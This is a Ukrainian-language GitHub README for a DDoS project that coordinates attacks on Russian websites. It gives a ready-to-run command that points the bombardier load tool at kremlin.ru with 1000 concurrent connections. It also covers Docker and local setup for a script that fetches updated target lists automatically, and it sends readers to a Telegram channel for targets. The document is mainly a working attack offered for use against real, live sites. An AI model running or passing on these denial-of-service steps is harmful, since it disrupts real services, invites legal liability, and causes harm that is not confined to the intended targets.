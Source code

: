 # fuckputin

🇺🇦 DDoS скрипт для координації боротьби з загарбницькими сайтами - використовує bash та [bombardier](https://github.com/codesenberg/bombardier) 🇺🇦

### [English manual](./README.md)
### [Инструкция на русском](./README_RU.md)

### Cпрощена інструкція - мануальне виконання скрипта

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker run -it alpine/bombardier -c 1000 -d 60s -l https://kremlin.ru`
- Остання частина команди це сайт, слід обрати сайт з [останніх повідоплень чату](https://t.me/itarmyofukraine2022)  

### Автоматичний скрипт

Скрипт виконує цю команду та автоматично підставляє цілі зі списку. Також він автоматично завантажує оновлення списку цілей, тобто вам не доведеться оновлювати список вручну.

#### Цілі

Найкраще слідкуйте за оновленими цілями [в цьому офіційному каналі](https://t.me/itarmyofukraine2022)  
Відредагуйте список у файлі [./fucklist.sh](/fucklist.sh)

#### Скрипт

- Зкачайте код виконавши цю команду в терміналі:  
   `git clone https://github.com/v1adko/fuckputin.git` або [зкачайте zip](https://github.com/v1adko/fuckputin/archive/refs/heads/master.zip) якщо клонування займає довго
- Перейдіть до папки з кодом - `cd ./fuckputin`
- (опціонально) Оновіть [цілі](#цілі)

#### Запуск в Docker контейнері
   
*NOTE*: це може зайняти значно довше часу та трафіку, тому якщо ви більш технічно досвідчені спробуйте [встановити бінарники прямо на вашу хост систему](#локальний-запуск)

- Встановіть Docker - [Інструкції](https://docs.docker.com/get-docker/)
- `docker-compose up --build` (на деяких системах compose не йде разом з docker)  
   **або**
- `docker build -t fuckputin .`
- `docker run fuckputin`

#### Локальний запуск

- Встановіть Go - [інструкції](https://go.dev/doc/install)
- Встановіть bombardier [зкачавши бінарний файл](https://github.com/codesenberg/bombardier/releases) відповідний до вашої системи
- Запустіть команду `./fuckputin-local.sh`

### Усе

Зараз можете залишити виконуватись программу на деякий час, можете [моніторити чат](https://t.me/itarmyofukraine2022) задля новин та інших способів допомогти.

Дякую за боротьбу! Україна переможе! 💪 🇺🇦
